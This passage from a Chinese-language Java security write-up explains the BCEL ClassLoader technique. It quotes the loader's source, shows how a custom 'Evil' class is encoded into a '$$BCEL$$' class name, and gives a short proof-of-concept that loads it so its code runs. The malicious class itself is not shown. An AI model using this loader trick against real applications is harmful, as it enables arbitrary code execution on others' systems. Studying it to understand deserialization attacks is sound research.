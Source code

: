 ```java
         */
      if(class_name.indexOf("$$BCEL$$") >= 0)
        clazz = createClass(class_name);
      else { // Fourth try: Load classes via repository
        if ((clazz = repository.loadClass(class_name)) != null) {
          clazz = modifyClass(clazz);
        }
        else
          throw new ClassNotFoundException(class_name);
      }

      if(clazz != null) {
        byte[] bytes  = clazz.getBytes();
        cl = defineClass(class_name, bytes, 0, bytes.length);
      } else // Fourth try: Use default class loader
        cl = Class.forName(class_name);
    }

    if(resolve)
      resolveClass(cl);
  }

  classes.put(class_name, cl);

  return cl;
}
```

而我们可以使用以下代码来得到符合BCEL规范的class_name，其中Evil类是我们自定义的恶意类：

```java
JavaClass cls = Repository.lookupClass(Evil.class);
System.out.println("$$BCEL$$"+Utility.encode(cls.getBytes(), true));
```

完整POC如下：

```java
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import java.io.IOException;

public class BCEL_test {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        Class.forName(encode(),true,new ClassLoader());

    }

    public static String encode() throws IOException {
        JavaClass cls = Repository.lookupClass(Evil.class);
        return "$$BCEL$$"+Utility.encode(cls.getBytes(), true);
    }
}
```
